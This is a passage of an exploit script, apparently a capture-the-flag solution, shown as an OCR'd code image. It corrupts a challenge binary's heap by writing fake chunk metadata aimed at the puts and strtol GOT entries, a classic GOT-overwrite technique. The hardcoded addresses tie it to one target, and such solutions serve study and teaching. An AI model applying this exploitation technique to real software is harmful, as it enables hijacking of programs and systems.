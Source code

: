 ```
       #data_buff = heap_addr - 0x08
       #print "data_buff:", hex(data_buff)
 
       seq = ["1"] * 2
       count = struct.unpack("i", struct.pack("I", 8 ^ rand_val_addr))[0]
      
       sort(io, seq)
       sub_sort(io)
       sub_update(io, 2, count)
       sub_quit(io)
 
       #io.gdb_hint()
       t_reload(io, 2)
       #io.interact()
      
      
       sub_query(io, 100)
 
       strtol_got = 0x0804c01c
       puts_got = 0x0804c034
       print "puts_got:", hex(puts_got)
 
       global_addr = (data_buff &amp; 0xfffff000) + 0x100a0
      
       print "global_addr:", hex(global_addr)
 
       diff_index = (0x100a0 - (0x048 + 8)) / 4
 
       extern_addr = global_addr - 0x500
       other_addr = global_addr - 0x400
       other_index = diff_index - 0x400 / 4
       extern_got = global_addr - 0x550
 
       sub_update(io, diff_index + 0, 0x8)
       sub_update(io, diff_index + 1, 0x0)
       sub_update(io, diff_index + 2, extern_addr)
       sub_update(io, diff_index + 3, other_addr)
 
       sub_update(io, other_index + 0, 0x8)
       sub_update(io, other_index + 1, 0x0)
       sub_update(io, other_index + 2, extern_addr + 0x08)
       sub_update(io, other_index + 3, other_addr + 0x10)
 
       sub_update(io, other_index + 4, 0x8)
       sub_update(io, other_index + 5, 0x0)
       sub_update(io, other_index + 6, extern_addr + 0x10)
       sub_update(io, other_index + 7, other_addr + 0x20)
 
       sub_update(io, other_index + 8, 0x10)
       sub_update(io, other_index + 9, 0x0)
       sub_update(io, other_index + 10, puts_got - 0xC)
       sub_update(io, other_index + 11, other_addr + 0x30)
 
       sub_update(io, other_index + 12, 0x10)
       sub_update(io, other_index + 13, 0x0)
       sub_update(io, other_index + 14, extern_got)
       sub_update(io, other_index + 15, other_addr + 0x40)
 
       sub_update(io, other_index + 16, 0x10)
       sub_update(io, other_index + 17, 0x0)
       sub_update(io, other_index + 18, strtol_got - 0xC)
       sub_update(io, other_index + 19, 0)
 
```